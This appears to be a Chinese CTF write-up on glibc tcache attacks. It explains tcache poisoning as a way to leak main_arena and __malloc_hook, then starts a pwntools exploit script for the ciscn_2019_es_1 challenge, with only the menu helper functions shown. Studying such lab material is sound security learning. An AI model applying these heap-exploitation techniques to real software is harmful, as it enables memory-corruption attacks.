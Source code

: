 ```yaml
---
title: tcache attack
tags: [ctf-pwn,heap]
date: 2023-12-01 17:58:00
categories: [ctf-pwn]
excerpt: tcache poisioning, tcache key leak, tcache double free
---
```


## tcache poisoning

tcache poisioning指的是，修改管理tcache的chunk（就是那个chunk列表里那个大小为0x250，在最前面的）偏移0x10上的内容。

这里是存储每个bin中有多少个chunk的地方，全都改成7（tcache bin每个里最多7个chunk），这样再free的时候不管多大，都不会再进入tcache bin，然后就可以通过泄露unsorted bin，减96（因为有tcache），拿到mainarena，再减16拿到malloc_hook。

> 以前不知道的是，如果某个bin里的chunk个数为0，但是指针非空，继续malloc，他会变成负的（
>
> 详见下文exp
>

也算是uaf里的一类

### ciscn_2019_es_1

<https://buuoj.cn/challenges#ciscn_2019_es_1>

这道题可以用tcache poisioning来让chunk free时直接进入unsorted bin，uaf泄露malloc hook

但是这道题应该是被魔改过的（

因为他 heap number 最大是 12，可以强行填满tcache（就不用poisioning了），并且输入的compary‘s call（它是不是想写company写错了。。。）并没有用上。。。所以才认为是一个魔改的题目

下面是这两种做法

#### 填满tcache

```python
from pwn import *
#context.log_level = 'DEBUG'
context.arch = 'amd64'
p = process("./ciscn_2019_es_1")
libc = ELF("./glibc-all-in-one/libs/2.27-3ubuntu1_amd64/libc.so.6")

def cmd(choice:int):
    p.recvuntil(b"choice:")
    p.sendline(str(choice).encode())

def new(size:int, content):
    cmd(1)
    p.recvuntil(b"Please input the size of compary's name")
    p.sendline(str(size).encode())
    p.recvuntil(b"please input name:")
    p.send(content)
    p.recvuntil(b"please input compary call:")
    p.send(b'123\x00')

def dump(index:int):
    cmd(2)
    p.sendline(str(index).encode())

def free(index:int):
    cmd(3)
    p.sendline(str(index).encode())

```
